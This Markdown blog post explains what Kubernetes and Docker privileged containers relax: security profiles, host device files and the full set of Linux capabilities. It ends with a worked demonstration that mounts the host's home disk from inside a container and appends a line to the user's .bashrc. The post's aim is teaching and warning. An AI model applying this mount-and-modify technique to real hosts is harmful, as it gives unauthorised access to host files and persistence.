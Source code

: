 +++
title = "Privileged Containers Aren't Containers"
date = "2019-09-23"
+++

## Disabling security features

Applications that interact with host systems such as network plugins or storage drivers can have issues when run in a container, requesting access that’s been restricted by the kernel. For these cases, container runtimes have an out to disable these security features and let the process access the host. In Kubernetes this is achieved with the “privileged” security context field:

```
containers:
  - name: flannel
    image: quay.io/coreos/flannel:v0.11.0-amd64
    command:
    - "/opt/bin/flanneld"
    - "--ip-masq"
    - "--kube-subnet-mgr"
    - "--iface=$(POD_IP)"
    env:
      - name: POD_IP
        valueFrom:
          fieldRef:
            fieldPath: status.podIP
    securityContext:
      privileged: true
```

“privileged” doesn’t correspond to a single Linux primitive. Originally, this was just whatever Docker’s “--privileged” flag implemented. While the container still runs in its own [Linux namespaces and root filesystems](../containers-from-scratch), many security restrictions are relaxed.

For example, privileged containers don’t run with a SELinux or AppArmor context:

```
$ docker run --rm alpine:latest cat /proc/self/attr/current
docker-default (enforce)
$ docker run --privileged --rm alpine:latest cat /proc/self/attr/current
unconfined
```

The container is also provisioned with extensive access to the host. Normally containers are only given the bare-minimum device files to operate, such as stdout, stderr, stdin, /dev/null, etc.

```
$ docker run -it --rm alpine:latest ls /dev
console  fd       mqueue   ptmx     random   stderr   stdout   urandom
core     full     null     pts      shm      stdin    tty      zero
```

Privileged containers are mounted with all device files:

```
$ docker run -it --privileged --rm alpine:latest ls /dev
autofs              mapper              sda5
bsg                 md0                 sda6
console             memory_bandwidth    sda7
core                mqueue              sda8
cpu                 net                 sda9
cpu_dma_latency     network_latency     shm
dm-0                network_throughput  stderr
fd                  null                stdin
full                nvram               stdout
fuse                port                tpm0
hpet                ppp                 tpmrm0
hwrng               ptmx                tty
input               pts                 ttyS0
kmsg                random              ttyS1
loop-control        rtc0                ttyS2
loop0               sda                 ttyS3
loop1               sda1                uinput
loop2               sda10               urandom
loop3               sda11               vsock
loop4               sda12               zero
loop5               sda2                zram0
loop6               sda3
loop7               sda4
```

What makes a privileged container truly dangerous are the [Linux capabilities][capabilities] granted to it. Capabilities are the set of powers that compose “root” such as listening on lower ports, killing other processes, or changing file ownership. In a regular container, processes are severely restricted:

```
$ docker run --rm alpine:latest /bin/sh -c 'apk update && apk add libcap && capsh --print'
# ...
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

A privileged container has all capabilities:

```
$ docker run --privileged --rm alpine:latest /bin/sh -c 'apk update && apk add libcap && capsh --print'
# ...
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

CAP_SYS_ADMIN, the catch-all for privileged administrative actions, is the [poster child][cap-sys-admin] for dangerous capabilities. This flag lets a process set disk quotas, mount file systems, exceed the number of max open files, manipulate namespaces (the list goes on).

## Breaking out

Let’s put this together and break out of a privileged container. To demonstrate, we’ll run a privileged container in [Google’s Cloud Shell][cloud-shell] and gain access to the host’s filesystem.

In cloud environments, data is encrypted at rest but often exposed to the VM as an unencrypted filesystem (it’d be a pain if you had to manually enter a decryption password every time a VM booted). For Cloud Shell, the /home directory is exposed by /dev/sdb1, an attached device that persists between reboots and re-images.

Within a privileged container, a process can generate a device node for that block device, mount it into the container, and modify the user’s ~/.bashrc: 

```
$ docker run --privileged -it --rm alpine:latest
/ # apk update && apk add util-linux
# ...
/ # lsblk
NAME      MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda         8:0    0   45G  0 disk
├─sda1      8:1    0 40.9G  0 part /etc/hosts
├─sda2      8:2    0   16M  0 part
├─sda3      8:3    0    2G  0 part
│ └─vroot 253:0    0  1.2G  1 dm
├─sda4      8:4    0   16M  0 part
├─sda5      8:5    0    2G  0 part
├─sda6      8:6    0  512B  0 part
├─sda7      8:7    0  512B  0 part
├─sda8      8:8    0   16M  0 part
├─sda9      8:9    0  512B  0 part
├─sda10     8:10   0  512B  0 part
├─sda11     8:11   0    8M  0 part
└─sda12     8:12   0   32M  0 part
sdb         8:16   0    5G  0 disk
└─sdb1      8:17   0    5G  0 part
zram0     252:0    0  768M  0 disk [SWAP]
/ # mknod /dev/sdb1 block 8 17
/ # mkdir /mnt/host_home
/ # mount /dev/sdb1 /mnt/host_home
/ # echo 'echo "Hello from container land!" 2>&1' >> /mnt/host_home/eric_chiang_m/.bashrc
```

Logging back into the host, you’d be greeted with a fun message:


```
Welcome to Cloud Shell! Type "help" to get started.
To set your Cloud Platform project in this session use “gcloud config set project [PROJECT_ID]”
Hello from container land!
eric_chiang_m@cloudshell:~$
```


It’s important to remember that this isn’t a container escape, it’s working as intended. Privileged containers offer no security separation between the container and the host.

So take care when enabling this feature. Your container might not be a container.

[cap-sys-admin]: https://lwn.net/Articles/486306/
[capabilities]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[cloud-shell]: https://cloud.google.com/shell/
